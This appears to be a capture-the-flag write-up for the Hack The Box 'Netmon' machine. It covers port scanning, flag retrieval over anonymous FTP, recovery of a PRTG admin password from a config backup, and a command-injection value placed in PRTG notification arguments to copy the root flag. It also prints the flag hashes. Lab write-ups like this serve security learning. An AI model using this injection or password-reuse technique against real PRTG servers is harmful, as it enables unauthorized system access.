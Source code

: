 ```yaml
---
title: 'Hack The Box - Writeup'
subtitle: 'Netmon'
author: 'C1sc0'
date: \today{}
documentclass: scrartcl
pandoc-latex-color:
  - classes: [command]
    color: blue
---
```

<!-- Latex foo -->
\renewcommand*\contentsname{Table of Content}
\pagebreak
\tableofcontents
\pagebreak
<!-- Latex foo ends -->

# Recon
As always starting with nmap.

## nmap

```
Discovered open port 135/tcp on 10.10.10.152
Discovered open port 445/tcp on 10.10.10.152
Discovered open port 21/tcp on 10.10.10.152
Discovered open port 139/tcp on 10.10.10.152
Discovered open port 80/tcp on 10.10.10.152
Discovered open port 47001/tcp on 10.10.10.152
Discovered open port 49664/tcp on 10.10.10.152
Discovered open port 49668/tcp on 10.10.10.152
Discovered open port 49669/tcp on 10.10.10.152
Discovered open port 49667/tcp on 10.10.10.152
Discovered open port 49666/tcp on 10.10.10.152
Discovered open port 49665/tcp on 10.10.10.152
Discovered open port 5985/tcp on 10.10.10.152
```

# Initial Foothold - Get user.txt
user.txt can be found within the anonymous login at the ftp service. In Publics User folder it is.

```
dd58ce67b49e15105e88096c8d9255a5
```

This won't still give you a shell though.

# Priv Esc - Get root.txt

It can be found that there is an old backup of a prtg installations configuration:

```
--- loot/netmon ‹master* ?› » cat PRTG\ Configuration.old.bak | grep -C4 -i prtgadmin
            <dbcredentials>
              0
            </dbcredentials>
            <dbpassword>
	      <!-- User: prtgadmin -->
	      PrTg@dmin2018
            </dbpassword>
            <dbtimeout>
```

The password does not work out quite well, but as it is the year 2019 the password is: `PrTg@dmin2019`. You can use the password to logon to PRTG at port 80.

You now can misuse the notification settings and the script which PRTG will deliver to do a outfile.
Just use the command arguments: `c1sc0.txt; Copy-item "C:\Users\Administrator\Desktop\root.txt" -Destination "C:\Users\Public\c1sc0.txt" -Recurse` and you can grab the root flag afterwards using ftp.

```
3018977fb944bf1878f75b879fba67cc
```
